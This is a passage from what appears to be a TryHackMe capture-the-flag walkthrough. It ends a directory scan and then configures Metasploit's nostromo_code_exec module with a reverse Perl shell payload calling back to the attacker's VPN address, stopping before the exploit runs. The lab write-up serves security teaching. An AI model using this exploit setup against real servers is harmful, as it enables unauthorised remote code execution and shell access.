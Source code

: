 /<previous-flag>      (Status: 301) [Size: 315] [--> http://10.10.224.132/<previous-flag>/]
/server-status        (Status: 403) [Size: 278]

===============================================================
2020/12/24 01:52:24 Finished
==============================================================={% endraw %}{% endcapture %} {% include code.html code=code %}


## Task 10 - Metasploit - Final Walkthrough

Use these links as references.
- [Install Metasploit](https://4n3i5v74.github.io/posts/build-own-hacking-os/#install-metasploit){:target="_blank"}


Use metasploit to find the flag.
Deploy the machine and fire up `metasploit`.
Set the payload `exploit/multi/http/nostromo_code_exec`.
{% capture code %}{% raw %}msf6 > use exploit/multi/http/nostromo_code_exec
[*] Using configured payload cmd/unix/reverse_perl{% endraw %}{% endcapture %} {% include code.html code=code %}

Set remote host address and port, and local host address.
Local Host address is the connected IP address in THM page. This can also be found using `ip a` command output.
{% capture code %}{% raw %}msf6 exploit(multi/http/nostromo_code_exec) > set RHOST <target-ip>
RHOST => <target-ip>
msf6 exploit(multi/http/nostromo_code_exec) > set RPORT 80
RPORT => 80
msf6 exploit(multi/http/nostromo_code_exec) > set LHOST <vpn-ip>
LHOST => <vpn-ip>{% endraw %}{% endcapture %} {% include code.html code=code %}

Check if the options are alright for exploit.
{% capture code %}{% raw %}msf6 exploit(multi/http/nostromo_code_exec) > show options

Module options (exploit/multi/http/nostromo_code_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   <target-ip>      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    80               yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  <vpn-ip>         yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic (Unix In-Memory)
{% endraw %}{% endcapture %} {% include code.html code=code %}
